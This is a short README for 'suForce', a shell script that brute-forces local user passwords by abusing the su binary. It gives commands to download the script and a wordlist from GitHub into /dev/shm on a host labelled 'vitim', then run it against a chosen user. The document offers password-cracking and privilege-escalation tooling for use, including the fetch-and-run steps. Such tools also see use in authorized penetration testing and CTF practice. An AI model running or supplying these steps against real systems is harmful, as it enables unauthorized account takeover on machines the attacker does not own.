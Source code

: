 # suForce

**`suForce` performs `brute force attacks` on `user passwords` by abusing the `su` binary**

![](/screenshot.png)

- <kbd>Download</kbd>

```cmd
user@vitim:~$ cd /dev/shm
user@vitim:~$ wget -q "https://raw.githubusercontent.com/d4t4s3c/suForce/main/suForce.sh"
user@vitim:~$ wget -q "https://raw.githubusercontent.com/d4t4s3c/suForce/main/techyou.txt"
```

- <kbd>Use</kbd>

```cmd
user@vitim:~$ chmod +x suForce.sh
user@vitim:~$ ./suForce.sh -u <USER> -w <WORDLIST>
```

---
